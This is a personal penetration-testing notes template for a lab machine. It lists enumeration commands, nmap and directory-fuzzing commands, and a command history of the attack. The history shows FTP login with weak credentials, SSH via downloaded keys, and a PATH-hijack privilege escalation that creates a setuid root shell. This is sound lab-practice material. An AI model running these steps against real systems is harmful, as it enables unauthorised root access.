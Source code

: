 # 192.168.x.143
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`

- /home/john/local.txt
- /root/proof.txt

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.150.149 --top-ports 1000`
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
`sudo nmap -A -T4 -p- 192.168.150.144`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c

ftp 192.168.150.149
user: kiero pass: kiero

ls 
there are some id_rsa files

download them

chmod 600 id_rsa id_rsa_2

ssh -i id_rsa john@192.168.150.149

// as john
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash' > /home/john/chpasswd
chmod +x /home/john/chpasswd
export PATH=/home/john:$PATH
/home/john/RESET_PASSWD
/tmp/rootbash -p



```
snmpwalk -v2c -c public 192.168.150.149 NET-SNMP-EXTEND-MIB::nsExtendObjects

NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendCommand."RESET" = STRING: ./home/john/RESET_PASSWD
NET-SNMP-EXTEND-MIB::nsExtendArgs."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendInput."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."RESET" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."RESET" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."RESET" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."RESET" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."RESET" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."RESET" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendResult."RESET" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendOutLine."RESET".1 = STRING: Resetting password of kiero to the default value
